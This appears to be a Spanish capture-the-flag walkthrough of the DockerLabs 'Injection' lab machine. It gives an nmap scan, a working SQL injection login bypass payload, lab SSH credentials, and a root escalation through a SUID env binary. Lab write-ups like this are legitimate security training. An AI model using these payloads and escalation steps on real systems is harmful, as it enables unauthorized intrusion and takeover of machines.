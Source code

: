 # 🖥️ Máquina Injection
- 🔓 Dificultad: **muy fácil**

## 🔌 Comprobamos la conexión:
Primero comprobaremos si tenemos conexión con la máquina Injection:

```bash
ping -c 3 172.17.0.2
```

Este comando enviará solo 3 paquetes ping a la dirección IP designada (172.17.0.2) y luego terminará.

---

## 🔍 Escaneo con Nmap
Ahora haremos un escaneo de puertos con la herramienta 🛠️ Nmap:

```bash
sudo nmap -p- -sS -sC --open -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_injection_muyfacil/escaneo_maquina_inyection 
```

🔎 **Explicación de los parámetros del comando:**

- `-p-` Escanea **todos los 65535 puertos TCP**
- `-sS`  Escaneo **SYN sigiloso**
- `-sC` Usa **scripts por defecto**
- `--open` Muestra **solo puertos abiertos**
- `-sV` Detecta la **versión de los servicios**
- `--min-rate=5000` Velocidad mínima de **5000 paquetes/s**
- `-n` Sin resolución DNS
- `-vvv` Modo muy detallado
- `-Pn` Sin ping al host antes de escanear
- `-oN` Guarda el resultado en la ruta especificada

---

## 📊 Resultado del escaneo

```
Host is up, received arp-response (0.0000080s latency).
Scanned at 2025-05-15 21:58:36 EDT for 7s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
...
```

Observamos que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.

---

## 🌐 Acceso Web

Colocamos la dirección IP `172.17.0.2` en el navegador 🌍. Nos pedirá usuario y contraseña:

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/RECURSOS/injection%201.png)

---

## 🧨 Ataque de inyección SQL

Probamos un ataque de **inyección SQL**:

```sql
'or 1=1-- - 
```

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/RECURSOS/injection%202.png)

🔐 Obtuvimos credenciales:

```
user : dylan
contraseña: KJSDFG789FGSDF78
```

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/RECURSOS/injection%203.png)

---

## 🔐 Conexión SSH

Probamos conectarnos vía SSH:

```bash
ssh dylan@172.17.0.2
# contraseña: KJSDFG789FGSDF78
```

---

# 🧗 Escala de Privilegios

Buscamos binarios con permisos SUID:

```bash
find / -perm -4000 -user root 2>/dev/null
```

📄 Resultado:

```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
...
/usr/bin/env
...
```

📌 El binario `/usr/bin/env` tiene permisos SUID, lo que puede permitir una **escalada de privilegios**.

---

## 🔓 Escalada usando `env`

```bash
./env /bin/sh -p
```

⚠️ Si aparece el error:

```
-bash: ./env: No such file or directory
```

🔧 La solución es ejecutar el comando desde el directorio correcto:

```bash
cd /usr/bin
./env /bin/sh -p
# whoami
root
```
